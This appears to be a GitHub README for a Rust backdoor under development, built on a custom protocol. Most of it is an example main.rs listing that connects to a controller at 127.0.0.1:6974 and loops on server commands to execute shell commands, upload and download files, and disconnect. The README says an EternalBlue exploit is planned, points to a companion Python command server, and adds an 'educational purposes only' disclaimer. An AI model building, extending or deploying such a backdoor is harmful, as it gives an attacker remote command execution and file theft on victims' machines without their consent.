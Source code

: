 # Project Overview

## Introduction

This project stems from my interest in protocols and security, leading to the creation of a small backdoor and a proprietary protocol. The project is currently in development, with the backdoor's functionality completed and exploitation being implemented. I plan to use the EternalBlue exploit, and the entire backdoor and exploits are being developed exclusively in the Rust programming language.

**Note:** This project is still in progress.

## Features

- **Backdoor Functionality:** The backdoor's core functionality is complete and can be found in the `main.rs` file.
- **Exploits:** Exploits are being implemented in the `exploits.rs` file, currently featuring code for executing commands.
- **Dedicated Protocol:** The backdoor utilizes a dedicated protocol implemented in the `stprotocol.rs` file. It supports basic functionalities such as file upload, file download, and command execution.
- **Packet Structure:** The `structure.rs` file is dedicated to packet construction for the proprietary protocol, supporting packet conversion, serialization, and deserialization.

## Usage

### Backdoor

This project currently performs only basic functionalities.
However, if you wish to customize this project, please read the following guidelines. Below is an example code:

```
mod exploits;
mod stprotocol;
mod structure;

use exploits::{Exploits, Malware};
use std::thread;
use stprotocol::{Client, Session};
use structure::{Detector, Generator, StoneTransferProtocol, StructStone};

fn main() {
    let handle_server = thread::spawn(|| {
        event_loop(
            Session::new("127.0.0.1:6974".to_string()),
            StructStone::default(),
        )
    });

    handle_server
        .join()
        .expect("Connection to server is lost for unknown reasons. Backdoor terminated.");
}

fn event_loop(mut client: Session, mut packet: StructStone) {
    let mut exploit = Exploits::default();
    loop {
        // Loop for continuous communication with the server after creating a session

        packet = client.receiving(StructStone::default()); // Wait for the server's response after connection request

        println!("Server response type: {:?}", packet.get_type());

        match packet.get_type() {
            // Generate requests based on the server's response type
            StoneTransferProtocol::ExecuteCmd => {
                // If the type is ExecuteCmd
                client.exploit(exploit.command(packet));
            }
            StoneTransferProtocol::Download => {
                // If the type is Download
                client.download(packet);
            }
            StoneTransferProtocol::Upload => {
                // If the type is Upload
                client.upload(packet);
            }
            StoneTransferProtocol::Disconnect => {
                client.disconnect();
                break;
            }
            // If the server's response is Disconnect, terminate the connection

            _ => client.send(packet.get_stone()),
            // If the response type is not mentioned above, send a request similar to the server's response
        };
    }
}
```

1. **main.rs:** Contains the core functionalities of the backdoor.
2. **exploits.rs:** Manages the implementation of backdoor exploits. 
3. **stprotocol.rs:** Houses the backdoor's proprietary protocol, supporting features like file upload, file download, and command execution.
4. **structure.rs:** Provides packet configuration for the protocol, including packet conversion, serialization, and deserialization.
5. **Documentation of the module is still in progress. It will be completed soon. Please wait.**

### Customization

If you wish to customize this project, you can modify the code in the respective files: exploits.rs, stprotocol.rs, and structure.rs. Follow the provided comments for guidance.

Feel free to tailor the code to your specific requirements and functionalities. Remember to consider security implications and best practices when making changes.

Note: Ensure that your modifications comply with ethical standards and legal regulations. Unauthorized use of this code for malicious purposes is strictly prohibited.

## Python Server

This project includes a dedicated Python server. If you want the Python server, please visit [JustServer](https://github.com/3QNRpDwD/JustServer).

## How to Contribute

1. Fork this repository.
2. Create a new branch (`git checkout -b feature/new-feature`).
3. Make your changes (`git commit -am 'Add new feature'`).
4. Push to the branch (`git push origin feature/new-feature`).
5. Open a Pull Request.

## License

Open Source

**Disclaimer:** This project is for educational purposes only. Unauthorized use is strictly prohibited.
